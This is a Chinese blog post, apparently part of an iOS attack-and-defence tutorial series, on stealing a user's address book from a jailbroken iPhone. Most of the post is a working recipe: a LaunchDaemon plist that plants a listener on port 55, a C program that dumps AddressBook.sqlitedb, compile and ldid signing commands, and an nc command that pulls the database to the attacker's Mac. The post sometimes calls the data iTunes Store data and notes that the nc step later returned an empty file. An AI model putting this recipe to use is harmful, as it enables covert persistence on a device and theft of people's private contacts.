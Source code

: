 title: iOS攻防——（二）如何窃取用户的通讯录信息
date: 2016-07-12 21:31:24
tags:
  - iOS
  - iOS攻防
categories:
  - iOS
---

# 说明
2016年7月15更新，最近试了一下，发现用nc拿不到数据了，拿数据的代码是没有问题的，直接运行可以拿到数据，但是从mac通过IP和端口拿到的.sqlitedb文件是空文件，博主也正在看为什么~大家有兴趣可以一起找一下原因。

# 简介
本文章基于念茜的iOS攻防系列。
本文将会讲解如何窃取用户的通讯录信息。
同样在越狱手机环境下。

# hack
## 1. 需要一个plist
需要这样一个plist，它看起来是这样：

![](http://7xt4xp.com1.z0.glb.clouddn.com/blog_iOS%E6%94%BB%E9%98%B2%E2%80%94%E2%80%94%EF%BC%88%E4%BA%8C%EF%BC%89%E5%A6%82%E4%BD%95%E7%AA%83%E5%8F%96%E7%94%A8%E6%88%B7%E7%9A%84iTunesstore%E4%BF%A1%E6%81%AF-01.png)

<!--more-->

源文件是这样：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>Program</key>
	<string>/usr/bin/hack</string>
	<key>StandardErrorPath</key>
	<string>/dev/null</string>
	<key>SessionCreate</key>
	<true/>
	<key>ProgramArguments</key>
	<array>
		<string>/usr/bin/hack</string>
	</array>
	<key>inetdCompatibility</key>
	<dict>
		<key>Wait</key>
		<false/>
	</dict>
	<key>Sockets</key>
	<dict>
		<key>Listeners</key>
		<dict>
			<key>SockServiceName</key>
			<string>55</string>
		</dict>
	</dict>
</dict>
</plist>

```

SockServiceName指的是通信名称
将plist文件传送到至iPhone/System/Library/LaunchDaemons/ 下 

```
scp /Users/zhoulingyu/Desktop/hack.plist root@192.168.31.152:/System/Library/LaunchDaemons/hack.plist
```



## 2. 了解一下OS X的启动原理

> 1. mac固件激活，初始化硬件，加载BootX引导器。
> 2. BootX加载内核与内核扩展(kext)。
> 3. 内核启动launchd进程。
> 4. launchd根据/System/Library/LaunchAgents、/System/Library/LaunchDaemons、/Library/LaunchDaemons、Library/LaunchAgents、~/Library/LaunchAgents里的plist配置，启动服务守护进程

解释一下：
> LaunchDaemons是用户未登陆前就启动的服务（守护进程）
> LaunchAgents是用户登陆后启动的服务（守护进程）

几个目录下plist文件格式及每个字段的含义：

| Key | Description | Required
| :-------------: | :------------- | :-----: |
| Label | The name of the job | yes |
| ProgramArguments | Strings to pass to the program when it is executed | yes |
| UserName | The job will be run as the given user, who may not necessarily be the one who submitted it to launchd. | no |
| inetdCompatibility | Indicates that the daemon expects to be run as if it were launched by inetd | no |
| Program | The path to your executable. This key can save the ProgramArguments key for flags and arguments. | no |
| onDemand | A boolean flag that defines if a job runs continuously or not | no |
| RootDirectory | The job will be?chrooted?into another directory | no |
| ServiceIPC | Whether the daemon can speak IPC to launchd | no |
| WatchPaths | Allows launchd to start a job based on modifications at a file-system path | no |
| QueueDirectories | Similar to WatchPath, a queue will only watch an empty directory for new files | no |
| StartInterval | Used to schedule a job that runs on a repeating schedule. Specified as the number of seconds to wait between runs. | no |
| StartCalendarInterval | Job scheduling. The syntax is similar to cron. | no |
| HardResourceLimits | Controls restriction of the resources consumed by any job | no |
| LowPriorityIO | Tells the kernel that this task is of a low priority when doing file system I/O | no |
| Sockets | An array can be used to specify what socket the daemon will listen on for launch on demand | no |

iOS基本类似，我基本是参照这个来的。

所以上面的plist实际上是要求系统启动一个进程。
一个名为`hack`的进程，可执行文件的路径是/usr/bin/hack。

## 3. 编写读取通讯录数据程序
iTunes Store的数据都在`/var/mobile/Library/AddressBook/AddressBook.sqlitedb`中，只要能能拿出AddressBook.sqlitedb就可以非法拿到用户的数据。


那么现在编写一个程序：

```c
#include <stdio.h>   
#include <fcntl.h>   
#include <stdlib.h>   
   
#define FILE "/var/mobile/Library/AddressBook/AddressBook.sqlitedb"   
   
int main(){   
    int fd = open(FILE, O_RDONLY);   
    char buf[128];   
    int ret = 0;   
       
    if(fd < 0)   
        return -1;   
    while (( ret = read(fd, buf, sizeof(buf))) > 0){   
        write( fileno(stdout), buf, ret);   
    }   
    close(fd);   
    return 0;   
}  
```

用同样的方法编译、传输：

```
xcrun -sdk iphoneos clang -arch armv7 -o hack hack.c
```

签名：

```
ldid -S hack
mv hack /usr/bin
```

## 4. 抓取 iTunesstore 数据信息
利用netcat，指定之前定义的服务名称，抓取设备 iTunesstore 信息：

```
nc 192.168.31.152 55 > itunesstored2.sqlitedb
```

OK，在MAC查看一下内容。


----

有什么问题都可以在博文后面留言，或者微博上私信我，或者邮件我<coderfish@163.com>。

博主主要写javaEE和iOS的。

希望大家一起进步。

CSDN： [CSDN博客地址](http://blog.csdn.net/u010127917)

我的微博：[小鱼](http://weibo.com/coderfish/)


